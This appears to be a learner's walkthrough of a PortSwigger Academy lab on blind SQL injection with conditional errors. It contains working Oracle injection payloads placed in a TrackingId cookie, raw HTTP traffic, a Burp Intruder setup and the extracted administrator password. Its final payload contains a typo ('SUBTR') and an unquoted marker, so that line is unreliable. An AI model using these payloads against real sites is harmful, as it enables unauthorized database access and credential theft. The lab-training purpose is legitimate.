

# Blind SQL injection with conditional errors

---

# Review

In this situation, it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally, depending on an injected condition. This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false. Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

```

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error. With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a

```

❗ Note There are various ways of triggering conditional errors, and different techniques work best on different database types

# Labs Walkthrough

---

The original request

```
GET /login HTTP/2
Host: 0af40078044b31f480afccdc003b0083.web-security-academy.net
Cookie: TrackingId=POg3wIWYdQVhZtLp; session=q15YFoAZ9aNFAMUaYEQ4BGqSA8S4k5g9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0af40078044b31f480afccdc003b0083.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

- The original response
    
    ```html
    HTTP/2 200 OK
    Content-Type: text/html; charset=utf-8
    X-Frame-Options: SAMEORIGIN
    Content-Length: 3149
    
    <!DOCTYPE html>
    <html>
        <head>
            <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
            <link href=/resources/css/labs.css rel=stylesheet>
            <title>Blind SQL injection with conditional errors</title>
        </head>
        <body>
            <script src="/resources/labheader/js/labHeader.js"></script>
            <div id="academyLabHeader">
                <section class='academyLabBanner'>
                    <div class=container>
                        <div class=logo></div>
                            <div class=title-container>
                                <h2>Blind SQL injection with conditional errors</h2>
                                <a class=link-back href='https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors'>
                                    Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                    <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                        <g>
                                            <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                            <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                        </g>
                                    </svg>
                                </a>
                            </div>
                            <div class='widgetcontainer-lab-status is-notsolved'>
                                <span>LAB</span>
                                <p>Not solved</p>
                                <span class=lab-status-icon></span>
                            </div>
                        </div>
                    </div>
                </section>
            </div>
            <div theme="">
                <section class="maincontainer">
                    <div class="container is-page">
                        <header class="navigation-header">
                            <section class="top-links">
                                <a href=/>Home</a><p>|</p>
                                <a href="/my-account">My account</a><p>|</p>
                            </section>
                        </header>
                        <header class="notification-header">
                        </header>
                        <h1>Login</h1>
                        <section>
                            <form class=login-form method=POST action="/login">
                                <input required type="hidden" name="csrf" value="8YcMoun5lmtmkzez9OlqeFC0Olo1nwbY">
                                <label>Username</label>
                                <input required type=username name="username" autofocus>
                                <label>Password</label>
                                <input required type=password name="password">
                                <button class=button type=submit> Log in </button>
                            </form>
                        </section>
                    </div>
                </section>
                <div class="footer-wrapper">
                </div>
            </div>
        </body>
    </html>
    ```
    

Modify the request at `Cookie` line

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'
```

Verify there is an error message

```html
<h4>Internal Server Error</h4>
<p class=is-warning>Internal Server Error</p>
```

Try again by adding one more quote `'` 

```
Cookie: TrackingId=POg3wIWYdQVhZtLp''
```

Verify there is no more error message → Confirm that the error is a syntax type which is not the other kind of error (what we suppose to **********************************conditional error**********************************)

Try to submit with the symbol `||` which is used to add two strings from the left and right together and returns one result

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT '') ||'
```

In this case, the error message still exists. The reason might be due to the database type → Try another one with oracle syntax

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT '' FROM dual) ||'
```

`*DUAL` is the name of a table with exactly **one** record and **one** column. The name of the column is `DUMMY` and its value is `X`.*

*The owner of `DUAL` is `SYS`, but it is accessibly by every user.*

Verify the error message disappears → Indicate that the target is probably using an **Oracle** Database

It’s time to exploit this behavior to test conditions

## Exploit

1. Identify the username

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='test')||'
```

Verify that the error message does not appear → The username `test` is not exist. Submit the one that is mentioned in the Lab’s instruction (`administrator`)

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

The error message appears → The `administrator` exists

```html
<h4>Internal Server Error</h4>
<p class=is-warning>Internal Server Error</p>
```

1. Identify the password length

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

This should return the error message → The password has more than 1 character → Replace the number `1` to the greater until the server does not return any error ⇒ The password length is equal to that number. For example:

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

At number `20` , the error message disappears → The length of password is `20`

1. Determine the character of each positions

Send the current request to `Intruder` tab in BurpSuite → Modify the request using `SUBSTR` → Insert the payload marker

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT CASE WHEN SUBTR(password,§1§,1)=§a§ THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Choose the `Attack type` to `Cluster Bomb` to run the attack with multiple payload sets



The current tab is `Positions`, switch to `Payloads` tab to configure the ************************************Payload sets************************************. 

With the first payload set which is indicated as `§1§` → Set with `Numbers` as ************************Payload type************************ and set the range **From** `1` ****To**** `20` with the ********Step******** is `1`


With the second payload set which is indicated as `§a§` → Set the ************************Payload type************************ to `Simple list` and ****************Load…**************** 2 wordlist files (alphabet - a→z - and numbers - 0→9)


Then click `Start attack` to automatically determine the password

The password is: q4ye06yyr953c0mlqynb

